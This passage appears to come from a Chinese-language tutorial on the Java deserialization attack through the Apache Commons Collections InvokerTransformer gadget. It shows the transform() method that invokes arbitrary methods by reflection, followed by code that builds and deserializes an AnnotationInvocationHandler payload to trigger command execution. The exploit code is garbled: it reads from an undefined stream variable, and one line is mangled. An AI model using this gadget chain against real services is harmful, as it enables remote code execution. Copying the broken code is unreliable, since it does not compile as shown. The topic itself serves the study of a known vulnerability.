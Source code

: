 #### InvokerTransformer

同样是实现Transform接口的类，构造时传入方法名，参数类型和参数值，调用transform()时传入被调用对象

InvokerTransformer类的transform方法导致命令执行：

```java
    public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            } catch (NoSuchMethodException var5) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
            } catch (IllegalAccessException var6) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
            } catch (InvocationTargetException var7) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
            }
        }
    }
```

#### 生成可利用的序列化数据：


```java
        Class ann_clazz = Class.forName(ANN_INV_HANDLER_CLASS);

        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = ann_clazz.getDeclaredConstructor(Class.class, Map.class);

        // 设置构造方法的访问权限
        constructor.setAccessible(true);

        //AnnotationInvocationHandler类实例
        Object instance = constructor.newInstance(Target.class, transformedMap);

        // 创建用于存储payload的二进制输出流对象 创建Java对象序列化输出流对象
        ObjectOutputStream out = new ObjectOutputStream(new ByteArrayOutputStream());
        out.writeObject(instance);
        out.flush();
        out.close();

        byte[] bytes = baos.toByteArray();

        // 通过反序列化输入流(bais),创建Java对象输入流(ObjectInputStream)对象
        ObjectInputStream in = new ObjectInputStream(banew ByteArrayInputStream(bytes)is);

        in.readObject();
        in.close();

    }
}
```
